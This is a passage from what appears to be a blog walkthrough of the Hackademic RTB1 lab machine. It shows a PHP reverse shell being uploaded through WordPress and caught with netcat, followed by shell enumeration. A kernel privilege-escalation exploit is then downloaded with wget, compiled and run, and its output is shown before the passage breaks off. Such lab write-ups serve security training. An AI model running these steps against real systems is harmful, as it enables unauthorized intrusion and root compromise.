 {{< figure src="/images/posts/2012/hrt_3.jpg" >}}

By allowing file uploads, increasing the maximum size and adding to the allowable file extensions, we can upload the fantastic [PHP reverse shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell).  Then all we need to do is open up a netcat listener and navigate to the PHP file in wp-content/...

{{< figure src="/images/posts/2012/hrt_4.jpg" >}}

Now we've got a shell.  Some enumeration...

```
sh-4.0$ uname -a
uname -a
Linux HackademicRTB1 2.6.31.5-127.fc12.i686 #1 SMP Sat Nov 7 21:41:45 EST 2009 i686 i686 i386 GNU/Linux
sh-4.0$ netstat -vant
netstat -vant
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address               Foreign Address             State      
tcp        0      0 0.0.0.0:3306                0.0.0.0:*                   LISTEN      
tcp        0      0 127.0.0.1:631               0.0.0.0:*                   LISTEN      
tcp        0      0 127.0.0.1:25                0.0.0.0:*                   LISTEN      
tcp        0      0 192.168.1.168:47372         192.168.1.232:1234          ESTABLISHED 
tcp        0      0 :::80                       :::*                        LISTEN      
tcp        0      0 ::1:631                     :::*                        LISTEN      
tcp        0      0 ::ffff:192.168.1.168:80     ::ffff:192.168.1.118:54299  ESTABLISHED 
sh-4.0$ whoami
whoami
apache
sh-4.0$ 
```

Odd that MySQL is listening on 0.0.0.0, but we couldn't find it on a scan.  Likely iptable rules in place, but we need root first.  How's about a kernel [privilege escalation vulnerability](http://downloads.securityfocus.com/vulnerabilities/exploits/44219.c)?

```
sh-4.0$ cd /tmp                     
cd /tmp
sh-4.0$ wget downloads.securityfocus.com/vulnerabilities/exploits/44219.c
wget downloads.securityfocus.com/vulnerabilities/exploits/44219.c
--2012-11-14 06:52:05--  http://downloads.securityfocus.com/vulnerabilities/exploits/44219.c
Resolving downloads.securityfocus.com... 143.127.139.111
Connecting to downloads.securityfocus.com|143.127.139.111|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 6804 (6.6K) [text/plain]
Saving to: `44219.c'

     0K ......                                                100% 72.1K=0.09s

2012-11-14 06:52:05 (72.1 KB/s) - `44219.c' saved [6804/6804]

sh-4.0$ gcc 44219.c -o sploit
gcc 44219.c -o sploit
sh-4.0$ ./sploit
./sploit
[*] Linux kernel >= 2.6.30 RDS socket exploit
[*] by Dan Rosenberg
[*] Resolving kernel addresses...
 [+] Resolved security_ops to 0xc0aa19ac
 [+] Resolved default_security_ops to 0xc0955c6c
 [+] Resolved cap_ptrace_traceme to 0xc055d9d7
 [+] Resolved commit_creds to 0xc044e5f1
 [+] Resolved prepare_kernel_cred to 0xc044e452
[*] Overwriting security ops...
[*] Linux kernel >= 2.6.30 RDS socket exploit
```